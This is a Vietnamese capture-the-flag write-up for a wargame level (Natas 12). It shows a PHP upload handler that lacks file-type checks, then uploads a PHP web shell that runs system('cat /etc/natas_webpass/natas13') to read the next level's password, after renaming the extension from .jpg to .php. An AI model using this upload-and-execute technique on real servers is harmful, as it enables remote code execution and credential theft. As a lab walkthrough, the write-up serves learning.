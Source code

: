 View source code:
```
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```

Nhận thấy trong file này không thực hiên kiểm tra loại file được tải lên nên chúng ta hoàn toàn có thể thực hiên tải một file php lên để đọc password:

```
<?php    
  
system("cat /etc/natas_webpass/natas13");
  
?>  

```

Nhưng ở đây có một lưu ý là file tải lên sẽ được tự động lưu với phần mở rộng là .jpg nên chúng ta cần đổi jpg thành php để file này có thể được thực thi:

![](Image/img1.png)

Sau khi file được tải lên chúng ta truy cập vào file và lấy password:

![](Image/img2.png)
